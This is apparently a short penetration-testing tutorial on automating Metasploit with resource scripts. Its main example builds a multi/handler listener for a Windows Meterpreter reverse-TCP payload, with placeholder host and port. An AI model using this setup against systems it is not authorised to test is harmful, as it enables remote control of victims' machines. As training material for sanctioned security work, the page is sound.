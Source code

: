 
### Metasploit Resource Scripts

+ Metasploit resource scripts are a great feature of MSF that allow you to automate repetitive tasks and commands.

+ They operate similarly to batch scripts, whereby, you can specify a set of `Msfconsole` commands that you want to execute sequentially.

+ You can the load the script with `Msfconsole` and automate the execution of the commands you specified in the resource script.

+ We can use resource scripts to automate various tasks like setting up multi handlers as well as loading and executing payloads.

- We can check the resource scripts that come pre-packaged with Kali Linux. 
```
ls -la /usr/share/metasploit-framework/scripts/resource/
```

### How to create a resource script ?

1. In our case we'll be creating a resource script to automate the process of setting up a `multi/handler` to listen for incoming connections.

2. Create a `.rc` resource script using a text editor. `nano <script-name>.rc`

3. Write the command we want to run inside the resource script.
```
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <ip>
set LPORT <port>
run
```
- Its important to note that the commands inside the resource script should be written in the sequence we want them to run.

4. We can then load and execute the script.
```
msfconsole -r <script-name>.rc
```

5. We can also load up resource scripts from within the `msfconsole`
```
resource <path-to-script>
```

6. We can also create a resource script for the commands we ran. 
```
makerc /Downloads/portscan.rc
```

